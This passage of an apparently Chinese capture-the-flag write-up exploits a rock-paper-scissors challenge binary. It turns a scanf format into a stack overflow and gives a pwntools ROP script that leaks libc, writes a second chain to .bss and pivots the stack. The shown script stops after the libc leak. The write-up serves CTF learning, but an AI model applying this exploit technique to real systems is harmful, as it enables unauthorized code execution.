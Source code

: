 看到其低地址出存在一个`%s`，也就是我们可以将`%d`更换为`%s`。也就是将程序中的

```
__isoc99_scanf("%d", &amp;v1);
```

更改为

```
__isoc99_scanf("%s", &amp;v1);
```

也就是构造出了一个栈溢出的漏洞。那么接下来就是`rop`链的构造。

这里我是先利用`puts`函数泄漏出`libc`的基地址，接着利用`csu`调用`read`函数向`bss`段中写入新的`rop`链，接着进行栈迁移，将栈地址迁移到`bss`段中，执行新的`rop`进而`getshell`。

```
# encoding=utf-8
from pwn import *

file_path = "./rps"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    p = process([file_path])
    gdb.attach(p, "b *0x401451")
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

else:
    p = remote('challenge.nahamcon.com', 30002)
    libc = ELF('./libc-2.31.so')


csu_start = 0x401506
csu_end = 0x4014F0
bss_address = 0x404050
leave_r = 0x0000000000401451
p_rbp_r = 0x000000000040127d


def csu_call(address, arg0, arg1, arg2):
    ret = p64(csu_start) + p64(0)*2 + p64(1) + p64(arg0) + p64(arg1) + p64(arg2)
    ret += p64(address) + p64(csu_end)
    return ret


p.sendlineafter("Rock-Paper-Scissors? [y/n]: ", "y")
p.sendlineafter("&gt; ", "1")
p.sendafter("again? [yes/no]: ", b"yes\n".ljust(0x18, b"\x00") + b"\x08")

p_rdi_r = 0x0000000000401513
payload = b"a" * 0xc + p64(bss_address)
payload += p64(p_rdi_r) + p64(elf.got['read'])
payload += p64(elf.plt['puts'])
payload += csu_call(elf.got['read'], 0, bss_address, 0x100)
payload += p64(0)*7
payload += p64(p_rbp_r) + p64(bss_address) + p64(leave_r)

p.sendlineafter("&gt; ", payload)
p.sendafter("again? [yes/no]: ", b"no\n")

libc.address = u64(p.recvline().strip().ljust(8, b"\x00")) - libc.sym['read']
log.success("libc address is `{``}`".format(hex(libc.address)))
```